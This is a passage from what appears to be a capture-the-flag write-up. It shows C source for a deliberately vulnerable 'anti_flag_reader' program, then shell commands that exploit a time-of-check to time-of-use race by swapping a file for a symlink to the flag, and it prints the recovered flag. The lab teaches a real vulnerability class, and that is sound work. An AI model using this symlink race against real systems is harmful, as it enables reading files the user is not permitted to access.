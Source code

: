 ```c
    int path_check = strstr(argv[1], "flag");
    puts("Checking if the file is a symlink...");
    lstat(argv[1], &lstat_buf);
    int symlink_check = (S_ISLNK(lstat_buf.st_mode));
    puts("<Press Enter to continue>");
    getchar();
    
    if (path_check || symlink_check) {
        puts("Nice try, but I refuse to give you the flag!");
        return 1;
    } else {
        puts("This file can't possibly be the flag. I'll print it out for you:\n");
        int fd = open(argv[1], 0);
        assert(fd >= 0 && "Failed to open the file");
        while((n = read(fd, buf, 1024)) > 0 && write(1, buf, n) > 0);
    }
    
    return 0;
}
```

### Exploitation

1. We ran the `anti_flag_reader` against a benign file `asdf`.
```bash
race@car:~$ touch asdf
race@car:~$ /home/walk/anti_flag_reader asdf
Checking if 'flag' is in the provided file path...
Checking if the file is a symlink...
<Press Enter to continue>
```

2. While the program awaited input, we deleted the `asdf` file and created a symlink pointing to the `flag` file.
```bash
race@car:~$ rm asdf 
race@car:~$ ln -s /home/walk/flag asdf
```

3. Going back to the first terminal, pressing `Enter` tricked the program into reading the `flag` file due to the symlink.
```bash
[ENTER]
This file can't possibly be the flag. I'll print it out for you:

THM{R4c3_c0nd1710n5_1n_7h3_f1l35y573m!}
```

### Conclusion

By leveraging a time-of-check to time-of-use (TOCTOU) race condition vulnerability in the `anti_flag_reader` program, we were able to read the contents of the `flag` file.
